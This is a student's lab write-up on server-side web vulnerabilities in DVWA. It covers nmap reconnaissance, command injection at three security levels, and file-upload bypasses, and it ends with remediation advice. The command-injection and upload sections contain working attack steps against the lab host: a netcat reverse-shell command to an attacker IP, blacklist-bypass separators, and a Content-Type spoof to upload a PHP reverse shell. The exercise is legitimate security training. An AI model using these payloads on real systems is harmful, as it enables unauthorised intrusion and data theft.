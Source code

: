 Tutorial 4: Server-Side Web Vulnerabilities
===========================================

Gathering information on `dvwa`
-------------------------------
We are exploiting a web application hosted on `dvwa`. As such, we want to gather the following information:
1. `dvwa`'s IP address
2. The operating system it's running
3. The web server software (and version) it's using to serve content
4. The version of PHP being used to execute PHP scripts hosted on the web server

This can be done using `nmap`:
1. I tried `nmap -sP 10.6.66.1/24`, like in the previous lab to try and find `dvwa`'s IP. However this only revealed 10.6.66.1 (DHCP server) and 10.6.66.64 (`kali_vm` or ourselves). That's cause I didn't launch `dvwa` (I might be slightly retarded). After launching it, I identified its IP as **10.6.66.42**.
2. To identify the OS, I used `nmap -O 10.6.66.42`, which provided the following relevant information:
```
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel.:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```
This identifies the OS as anything between Linux 3.2 and 4.9.
3. `nmap -sSV 10.6.66.42` was used to perform a scan of the popular TCP ports and identify their versions:
```
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.10 ((Debian) PHP/5.6.29-0+deb8u1)
111/tcp open  rpcbind 2-4 (RPC #100000)
MAC Address: 08:00:27:05:A6:4D (Oracle VirtualBox virtual NIC)
```
This not only identified the web server software as **Apache 2.4.10**, but also identified the PHP version as **5.6**

**Questions**
1. The way `nmap` determines a host's operating system is that it sends specific tcp packets and fingerprint the responses using TCP/IPS fingerprinting. The Linux 3.2 - 4.9 OS must send out the same response, and as such it can't distinguish between them.
2. Another way to gain information about the operating system can be using the version provided by `nmap`'s TCP scan. We can see that Apache is running on Debian. The '+deb8u1' indicates that it's Debian 8 (also called "jessie"), see [**here**](https://unix.stackexchange.com/questions/119158/why-do-some-debian-packages-have-a-deb7u2-suffix).
3. An administrator of `dvwa` could setup a firewall to block connections from certain IP addresses. *Check solutions when they're released*

Finding vulnerabilities in `dvwa`
---------------------------------
After connecting to the `dvwa` webpage, we are told to use the *Command Injection* or *File Upload* sections and exploit a vulnerability present in the source code to find a hidden file.

**Command Injection**
*Security Level: low*
Looking at the source code, we can see the following lines of interest:
```
$target = $_REQUEST[ 'ip' ]; // Extracts input we provide to the prompt in the webapp
$cmd = shell_exec( 'ping  -c 4 ' . $target ); // Directly inserts the input into a shell command
```
Looking at this, if we insert a `;` (shell command seperator), `&` (makes preceding command run in background) or `&&` (runs succeeding command sequentially), we can insert another shell command afterwards to be run. To start with, I probed using `; ls -la`, which printed the web-app's working directory on the webpage.

A more interesting exploit that can be done with this is opening a [**reverse-shell**](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/), which essentially gives us a shell in our host computer that executes commands on the target computer. I set it up as follows:
1. Run `nc -lvp 42069` on `kali-vm` (or your attacker computer), where 42069 is the desired TCP port we will be running the connection over.
2. Trick `dvwa` (or victim) into running `nc 10.6.66.64 42069 -e /bin/bash`, where `10.6.66.64` is `kali-vm`'s IP and `42069` is the port we are listening on.
3. In the terminal where you ran netcat on your attacker computer you now have a bash terminal inside the victim!

From here I used the [**locate**](https://linuxize.com/post/locate-command-in-linux/) command as follows: `locate -i secret`, which returns all filenames which contain 'secret' (`-i` makes it case invariant). This identified the secret file in `/home/csn/THIS_IS_THE_SECRET_FILE.txt`. I used `cat` to check the file contents and copied it onto my local machine. MISSION SUCCESS!

*N.B. - I tried to use `scp` but I don't think ssh is working on `dvwa`*

**File Upload**
*Security Level: low*
I now want to find the hidden file again without any of the knowledge I've gathered from the command injection. Looking at the source code we see the following lines of interest:
```
if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
}
else {
    // Yes!
    echo "<pre>{$target_path} succesfully uploaded!</pre>";
}
```
Since the page doesn't check the filetype of our upload, we can simply upload a php script and run it. I created [**find_secret.php**](find_secret.php), which looks for the secret file in the same methodology as in the previous section.

After uploading the file, we are shown where it's stored, and navigating to `http://10.6.66.42/dvwa/hackable/uploads/find_secret.php`, we can see the results of the script.

**Command Injection**
*Security Level: medium*
On this level, the source code has added a blacklist:
```
// Set blacklist
$substitutions = array(
    '&&' => '',
    ';'  => '',
);
```
A string replacement is performed on the user input:
`$target = str_replace( array_keys( $substitutions ), $substitutions, $target ); `

Looking at the blacklist, we can still execute arbitrary commands using `&`, as this isn't on the blacklist, or more creatively using `&;&`, as the `;` is deleted.

*Security Level: high*
On this level, the blacklist has been expanded:
```
// Set blacklist
$substitutions = array(
    '&'  => '',
    ';'  => '',
    '| ' => '',
    '-'  => '',
    '$'  => '',
    '('  => '',
    ')'  => '',
    '`'  => '',
    '||' => '',
);
```
The first thing I noticed was that the blacklist banning the pipe `|` operator also included a space in the match case. This meant that if there isn't a space in the command the character won't be removed. Note that the `-` being removed makes it much harder to set up a reverse shell using the command we used before. However, we can still get some limited functionality. Some more advanced exploitation can be found [**here**](https://www.lastbreach.com/blog/dvwa-unintended-command-injection-high).

**File Upload**
*Security Level: medium*
In this version of file upload, the type of the file is checked as follows:
```
// Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) )
```
Where `$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ]; `. An important thing to note is that the `$_FILES[ 'uploaded' ][ 'type' ]` information is encoded as part of the HTTP message, and not the file extension. Using the firefox developer tools, we can switch to the network tab. We can first try uploading the [**reverse_shell.php**](reverse_shell.php) file, which would allow us to open a reverse shell on the web server. We can see that this request is denied, as the content type is not an image. However, if we select this packet, we can select the 'edit and resend' option and manually change the Content-Type from `application/x-php` to `image/jpeg`. Note that the field to change is actually in the request body, with the request header having the Content-Type `multipart/form-data`, which is used to include the file in the data as part of the POST request.

**Questions**
1. The command injection vulnerabilities in DVWA could be fixed quite easily by using the `escapeshellarg()` PHP command around the user input that is used inside the `shell_exec()` function. This function ensures every meta-character in a string will be escaped and the string will be added a quote around it, so that it is safely read as a single safe argument (essentially sanitizing our input). Another good thing to do (as shown in the *impossible* difficulty), is to validate the input to be a specific IP address, and rejecting any inputs that don't match that.
2. For file upload, the extension of the file being uploaded can be checked from the filename as follows:
```
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
```
The file extension itself could be checked against valid image options, which would prevent .php scripts from being uploaded. The problem is that this still allows PHP scripts to be included as part of the image meta-data. We must therefore also strip any metadata by re-encoding the image. Finally, session tokens can be generated and checked by the server to prevent CSRF (Cross-Site Request Forgery) attacks, which ensures the HTTP request is legitimately generated via the application's user interface.

